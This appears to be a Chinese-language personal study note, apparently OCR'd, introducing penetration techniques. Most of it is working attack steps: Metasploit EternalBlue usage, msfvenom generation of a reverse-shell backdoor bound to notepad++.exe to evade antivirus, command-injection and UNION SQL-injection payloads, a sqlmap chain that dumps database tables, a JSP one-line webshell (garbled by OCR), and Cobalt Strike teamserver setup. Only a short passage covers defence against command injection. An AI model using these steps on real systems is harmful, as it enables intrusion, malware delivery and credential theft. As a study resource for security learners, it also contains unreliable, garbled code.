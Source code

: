 ```yaml
---
title: 计算机网络安全
category: 笔记
tags:
  - 网络安全
banner_img: /img/banner/net_security.jpg
index_img: /img/cover/net_security.jpg
excerpt: 计算机网络安全入门
date: 2023-01-05 11:45:21
---
```

## Kali渗透工具-metasploit

msf使用法则：

- 使用模块
- 配置模块必选项
- 运行模块

```bash
# 启动metasploit命令行
$ msfconsole

# 搜索模块
# 永恒之蓝漏洞：search ms17_010
> search 模块名

# 使用模块
# 永恒之蓝漏洞：use 0
> use 模块编号#/模块Name

# 查看模块配置项（配置必选项）
# exploit options：攻击利用脚本
# payload options：攻击载荷
> show options

# 配置
# 例如：set RHOST 127.0.0.1
> set 配置项Name 值

# 运行模块
# 控制台输出win代表入侵成功，此时进入靶机控制台
> run
```

## 生成远程控制木马-msfvenom

- msfvenom用来生成后门，在目标机上执行后门，在本机监听上线
- 在shell中执行

```bash
# 生成windows可执行程序后门
# -p：payload
# payload_name：系统/架构/作用/方式
# lhost、lport：攻击机的ip和端口
# -f：后面跟文件格式
# exe：windows可执行文件
# -o：后面跟文件名
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=9999 -f exe -o demo.exe

# 运行后门监控handler程序
$ use exploit/multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set lhost 127.0.0.1（与上面生成后门内的lhost一致）
$ set lport 9999（与上面生成后门内的lport一致）
```

**绕过杀毒软件的技巧：**

- 捆绑木马：将木马捆绑到其他程序上

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=9999 -f exe -x notepad++.exe -o notepad++.exe
```

- 加壳：使用加壳工具（Themidaf），让生成的可执行文件不被杀毒软件识别

## 命令连接符

```bash
# 无论cmd1是否执行成功，cmd2将被执行
cmd1|cmd2

# 无论cmd1是否执行成功，cmd2将被执行
cmd;cmd2

# 无论cmd1是否执行成功，cmd2将被执行
cmd&cmd2

# 仅在cmd1执行失败时执行cmd2
cmd||cmd2

# 仅在cmd1执行失成功时执行cmd2
cmd&&cmd2
```

### 常见cmd命令

```bash
# 查看当前目录
> dir

# 查看当前用户名
> whoami

# 查看网卡信息
> ipconfig

# 增加一个用户名为username密码为password的新用户
> net user [username][password] /add

# 查看进程及端口
> netstat -ano
```

## 命令注入

**原理：**
服务器提供执行本地命令的接口，比如用户输入ip，服务器执行ping ip操作。因为有命令连接符&的存在，用户可以输入诸如127.0.0.1 & whoami的指令，在&符右边执行任何想要执行的指令。该漏洞较为低级，关键在于服务器不要直接暴露执行命令的接口，或者过滤命令连接符：将命令连接符判空或用户输入命令连接符则终止执行
**完美防御：**
1.取出用户输入的
2.将用户输入的ip根据.分割成4个部分
3.分别判断4个部分是否为数字以及数组大小是否为4，不成立则拒绝访问
4.把验证完的数字再拼接起来，执行

## sql注入

**原理：**
用户改变原有sql语句

```sql
# 输出错误信息则证明sql语句生效，存在SQL注入漏洞
select first, second from users where user_id = '1' and 1=2#

# 查询当前表有几个字段，从1开始依次执行，直到输出错误
select first, second from users where user_id = '1' order by 1#

# 查询当前数据库连接用户和数据库名称
select first, second from users where user_id = '1' union select user(),database()#

# 查询该数据库中所有的表
select first, second from users where user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema = '上面查询到的数据库名'#

# 查询user表中信息
select first, second from users where user_id = '1' union select username,password from users#
```

**利用SQLmap自动化SQL注入利用过程：**

```bash
# 第一步：检测漏洞
# u：需要检测网站的url地址
# --cookie：网站的cookie信息，免登录
$ sqlmap -u "xxx" --cookie="xxx"

# 第二步：获取数据库名
# --dbs：database server 获取所有数据库名
$ sqlmap -u "xxx" --cookie="xxx" --dbs 

# 第三步：获取指定数据库表
$ sqlmap -u "xxx" --cookie="xxx" -D 数据库名 --tables

# 第四步：获取指定数据的表信息
$ sqlmap -u "xxx" --cookie="xxx" -D 数据库名 -T 表名 --columns

# 第五步：获取指定数据的表数据
$ sqlmap -u "xxx" --cookie="xxx" -D 数据库名 -T 表名 --dump
```

## 端口扫描

**目的：**
发现目标主机开放的端口极其对应开放的服务，通过发现及利用服务所存在的漏洞入侵目标主机
**方法：**
使用Railgun工具输入ip扫描靶机的端口
![](/img/content/network_security/railgun_scan.jpg)
**常见漏洞端口**
7001端口是weblogic反序列化端口，若靶机开放了该端口，则可使用weblogic漏洞利用工具拿到控制台权限
![](/img/content/network_security/deserialization.jpg)
3389端口是Windows远程桌面的服务端口，可以通过这个端口，用远程桌面连接来连接到远程的服务器，如果连接上了，输入系统管理员的用户名和密码后，将变得可以像操作本机一样操作远程的电脑

## 深度利用，getShell
**WebShell**
WebShell是以asp、php、jsp或cgi等网页文件形式存在的一种命令执行环境，又称为网页后门。入侵一个网站后，通常将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，达到控制网站服务器的目的
```jsp
// jsp一句话木马
< %@ page import= "java.io.*" %>
<% String cmd = requestgetParameter("cmd"): String output =”ifcmd != null)
( Strings = null; try { Process p = Runtime getRuntime() exec(cmd);
。BufferedReader sI = new BufferedReader(new
| InputStreamReader(p.getInputStream0)): while((s = sLreadLine0) != null)
( output +=s +"\r\n";}} catch(lOException e) { e.printStackTrace0; }}
outprintln(output);%>
```
**连接木马**
上传完后门文件后，连接木马地址：http://xxx:7001/xxx/shell.jsp?cmd=dir
后面的cmd参数填入想要执行的命令。也可以使用中国蚁剑快捷连接

## CobalStrike
CobalStrike，简称CS,是一款团队作战渗透测试神器，分客户端和服务端，一个服务端对应多个客户端，一个客户端可以连接多个服务端。

**CS服务端启动**
```bash
# 给文件添加执行权限
$ chmod 777 teamserver

# 启动服务
$ ./teamserver 本机ip 连接密码

# 使用cs客户端连接
```
cs客户端快捷栏：
![](/img/content/network_security/csagent.jpg)


